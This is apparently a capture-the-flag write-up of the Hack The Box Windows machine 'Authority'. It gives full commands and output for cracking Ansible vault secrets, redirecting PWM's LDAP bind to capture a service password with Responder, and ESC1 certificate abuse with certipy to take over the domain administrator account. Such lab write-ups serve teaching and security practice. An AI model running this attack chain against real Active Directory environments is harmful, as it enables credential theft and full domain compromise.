


---
techniques:
  - "PWM"
  - "ADCS"
difficulty: "Medium"
status: "Rooted"
os: "Windows"
season: "HTB"
name: "Authority"
title: "Authority"
notion_id: "3730f091-be70-8008-b43e-e9ed51ea0e7e"
last_synced: "2026-06-03T00:47:16.783Z"
---
<details>
<summary>Nmap Scan</summary>

```bash
…/htb/authority ❯ nmap -sV -sC -T4 10.129.229.56
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-02 01:37 +0100
Nmap scan report for 10.129.229.56
Host is up (0.061s latency).
Not shown: 986 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-02 04:38:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-06-02T04:38:55+00:00; +4h00m00s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-06-02T04:38:54+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-06-02T04:38:55+00:00; +4h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-06-02T04:38:55+00:00; +4h00m01s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  ssl/http      Apache Tomcat (language: en)
| tls-alpn: 
|_  h2
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-05-31T04:27:44
|_Not valid after:  2028-06-01T16:06:08
|_ssl-date: TLS randomness does not represent time
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-06-02T04:38:45
|_  start_date: N/A
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 3h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.86 seconds
```


</details>


lets keep enumerating, we don’t have creds


```bash
…/htb/authority ❯ nxc smb 10.129.229.56 -u 'guest' -p '' --shares
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\guest: 
SMB         10.129.229.56   445    AUTHORITY        [*] Enumerated shares
SMB         10.129.229.56   445    AUTHORITY        Share           Permissions     Remark
SMB         10.129.229.56   445    AUTHORITY        -----           -----------     ------
SMB         10.129.229.56   445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.129.229.56   445    AUTHORITY        C$                              Default share
SMB         10.129.229.56   445    AUTHORITY        Department Shares                 
SMB         10.129.229.56   445    AUTHORITY        Development     READ            
SMB         10.129.229.56   445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.129.229.56   445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.129.229.56   445    AUTHORITY        SYSVOL                          Logon server share
```


we have a readable share!!


```bash
…/htb/authority ❯ smbclient //10.129.229.56/Development -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 17 14:20:38 2023
  ..                                  D        0  Fri Mar 17 14:20:38 2023
  Automation                          D        0  Fri Mar 17 14:20:40 2023
```


we retrieve everything, its a ansible deployment for an Enterprise auth stack


```bash
…/authority/Dev_Share ❯ tree
.
├── ADCS
│   ├── defaults
│   │   └── main.yml
│   ├── LICENSE
│   ├── meta
│   │   ├── main.yml
│   │   └── preferences.yml
│   ├── molecule
│   │   └── default
│   │       ├── converge.yml
│   │       ├── molecule.yml
│   │       └── prepare.yml
│   ├── README.md
│   ├── requirements.txt
│   ├── requirements.yml
│   ├── SECURITY.md
│   ├── tasks
│   │   ├── assert.yml
│   │   ├── generate_ca_certs.yml
│   │   ├── init_ca.yml
│   │   ├── main.yml
│   │   └── requests.yml
│   ├── templates
│   │   ├── extensions.cnf.j2
│   │   └── openssl.cnf.j2
│   ├── tox.ini
│   └── vars
│       └── main.yml
├── LDAP
│   ├── defaults
│   │   └── main.yml
│   ├── files
│   │   └── pam_mkhomedir
│   ├── handlers
│   │   └── main.yml
│   ├── meta
│   │   └── main.yml
│   ├── README.md
│   ├── tasks
│   │   └── main.yml
│   ├── templates
│   │   ├── ldap_sudo_groups.j2
│   │   ├── ldap_sudo_users.j2
│   │   ├── sssd.conf.j2
│   │   └── sudo_group.j2
│   ├── TODO.md
│   ├── Vagrantfile
│   └── vars
│       ├── debian.yml
│       ├── main.yml
│       ├── redhat.yml
│       └── ubuntu-14.04.yml
├── PWM
│   ├── ansible.cfg
│   ├── ansible_inventory
│   ├── defaults
│   │   └── main.yml
│   ├── handlers
│   │   └── main.yml
│   ├── meta
│   │   └── main.yml
│   ├── README.md
│   ├── tasks
│   │   └── main.yml
│   └── templates
│       ├── context.xml.j2
│       └── tomcat-users.xml.j2
└── SHARE
    └── tasks
        └── main.yml

25 directories, 46 files
```


PWM is a Password Manager, it stands out directly


```xml
<?xml version='1.0' encoding='cp1252'?>

<tomcat-users xmlns="http://tomcat.apache.org/xml" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
 version="1.0">

<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
<user username="robot" password="T0mc@tR00t" roles="manager-script"/>

</tomcat-users>
```


the deployment is clearly using ADCS, thats sm to keep an eye for 


```bash
…/Dev_Share/PWM ❯ cat ansible_inventory 
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore
```


These creds didn’t work, more digging


```bash
…/Dev_Share/PWM ❯ cat defaults/main.yml 
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```


it seems obvious we wouldn’t find the password as plaintext in the files, so it makes sense to bruteforce these vaults and get the stored values, lets try


```bash
…/Dev_Share/PWM ❯ ansible2john vault1.txt vault2.txt vault3.txt > all_vaults.hash
```


```bash
…/Dev_Share/PWM ❯ john all_vaults.hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "ansible", but the string is also recognized as "ansible-opencl"
Use the "--format=ansible-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 AVX 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (vault2.txt)
!@#$%^&*         (vault1.txt)
!@#$%^&*         (vault3.txt)
3g 0:00:00:23 DONE (2026-06-02 02:43) 0.1280g/s 1700p/s 5101c/s 5101C/s 11223300..teamokaty
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


they all have the same password `!@#$%^&*` , Nice, now lets check their content


```bash
…/Dev_Share/PWM ❯ ansible-vault decrypt vault1.txt --vault-password-file <(echo '!@#$%^&*')
```


```bash
…/Dev_Share/PWM ❯ cat vault1.txt
svc_pwm
…/Dev_Share/PWM ❯ cat vault2.txt
pWm_@dm!N_!23
…/Dev_Share/PWM ❯ cat vault3.txt
DevT3st@123
```


smb/winrm access is still denied using these creds, so we pivot to the pwm service on `8443`





Classic PWM Service, theres nothing much to do here, but guess what, we have PWM Creds





we download the configuration, then dig into it 


```bash
<setting key="ldap.proxy.password" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="PASSWORD" syntaxVersion="0">
            <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP Proxy Password</label>
            <value>ENC-PW:gRNdPiTOczHjct11qrmQ/l126/F/iafrmKvKB1fu5miB5DfZH3sFMO7/KMOpjrYYTYfsZfkLaNHbjGfbQldz5EW7BqPxGqzMz+bEfyPIvA8=</value>
        </setting>
```


we can see that it has svc_ldap password encrypted, it decrypt it at runtime, what we can do it coerce PWM to authenticate to our host, by modifying the config and uploading it


```bash
…/htb/authority ❯ sed 's|ldaps://authority.authority.htb:636|ldap://10.10.15.195:389|g' \
  PwmConfiguration.xml > PwmConfiguration_evil.xml
```


```bash
…/Dev_Share/PWM ❯ sudo responder -I tun0 -v

[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.229.56
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```


BINGOO !! 


for context, PWM is a mechanism that helps users reactivate their accounts, reset their passwords…Etc, without going through helpdesk, it uses svc_ldap, and authenticates to the ldap server, and does all the work in the background.


## Root flag


we need to enumerate and found out where we are rn


```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


nothing interesting on our user, lets check out bloodhound


there’s a lot of ADCS activity going on on bloodhound, but before that, lets list users in this computer, that could lead us somewhere


```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> dir C:\Users


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/17/2023   9:31 AM                Administrator
d-r---         8/9/2022   4:35 PM                Public
d-----        3/24/2023  11:27 PM                svc_ldap
```


damn, we’re in the dark, lets check out certipy


```json
"Certificate Templates": {
    "0": {
      "Template Name": "CorpVPN",
      "Display Name": "Corp VPN",
      "Certificate Authorities": [
        "AUTHORITY-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        1
      ],
      "Enrollment Flag": [
        1,
        8,
        16
      ],
      "Private Key Flag": [
        16
      ],
      "Extended Key Usage": [
        "Encrypting File System",
        "Secure Email",
        "Client Authentication",
        "Document Signing",
        "IP security IKE intermediate",
        "IP security use",
        "KDC Authentication"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 0,
      "Schema Version": 2,
      "Validity Period": "20 years",
      "Renewal Period": "6 weeks",
      "Minimum RSA Key Length": 2048,
      "Template Created": "2023-03-24 23:48:09+00:00",
      "Template Last Modified": "2023-03-24 23:48:11+00:00",
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "AUTHORITY.HTB\\Domain Computers",
            "AUTHORITY.HTB\\Domain Admins",
            "AUTHORITY.HTB\\Enterprise Admins"
          ]
        },
        "Object Control Permissions": {
          "Owner": "AUTHORITY.HTB\\Administrator",
          "Full Control Principals": [
            "AUTHORITY.HTB\\Domain Admins",
            "AUTHORITY.HTB\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "AUTHORITY.HTB\\Domain Admins",
            "AUTHORITY.HTB\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "AUTHORITY.HTB\\Domain Admins",
            "AUTHORITY.HTB\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "AUTHORITY.HTB\\Domain Admins",
            "AUTHORITY.HTB\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "AUTHORITY.HTB\\Domain Computers"
      ],
      "[!] Vulnerabilities": {
        "ESC1": "Enrollee supplies subject and template allows client authentication."
      }
    }
  }
```


SWEET, this should send us directly to Administrator


we can see that 


```json
"Enrollment Rights": [
            "AUTHORITY.HTB\\Domain Computers",
            "AUTHORITY.HTB\\Domain Admins",
            "AUTHORITY.HTB\\Enterprise Admins"
          ]
```


so we’ll need to create a fake computer, then request a certificate for administrator with it


```bash
…/htb/authority ❯ addcomputer.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name 'EVIL$' -computer-pass 'EvilPass123!'

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account EVIL$ with password EvilPass123!.
```


then, we request a certificate and set upn to `administrator` exploiting `ESC1` 


```bash
…/htb/authority ❯ certipy req -u 'EVIL$@authority.htb' -p 'EvilPass123!' \
  -dc-ip 10.129.229.56 \
  -target authority.authority.htb \
  -ca 'AUTHORITY-CA' \
  -template CorpVPN \
  -upn administrator@authority.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```


next thing is we try to get a TGT with our cert


```bash
…/htb/authority ❯ certipy auth -pfx administrator.pfx -dc-ip 10.129.229.56
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```


this means DC doesn't support PKINIT (certificate-based Kerberos)


we can find a workaround


### WinRM (PKINIT, Kerberos)


`Certificate → Kerberos AS-REQ with PKINIT → TGT → WinRM access`


WinRM requires a **Kerberos ticket**. PKINIT is the extension that lets you get a TGT using a certificate instead of a password. The DC on this box has **PKINIT disabled or not configured,** so it can't process certificate-based Kerberos requests at all.


### LDAP (Schannel, mTLS)


`Certificate → TLS handshake on port 636 → LDAP bind → access`


LDAP over TLS (LDAPS) uses **Schannel** which is completely independent of Kerberos. The DC just does a standard mTLS handshake, it checks:

- Is this cert signed by a trusted CA? (its own CA)
- Does the SAN match a valid user? ([administrator@authority.htb](mailto:administrator@authority.htb))
- Done. You're in.

No Kerberos involved at all.


```bash
…/htb/authority ✗ certipy auth -pfx administrator.pfx -dc-ip 10.129.229.56 -ldap-shell
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*] Connecting to 'ldaps://10.129.229.56:636'
[*] Authenticated to '10.129.229.56' as: 'u:HTB\\Administrator'
Type help for list of commands

# change_password administrator 'Pwn3d!Kanyo123!'
```


this allows us to run ldap quries as administrator, so i just changed the admin password, now we can authenticate to winrm through credentials.

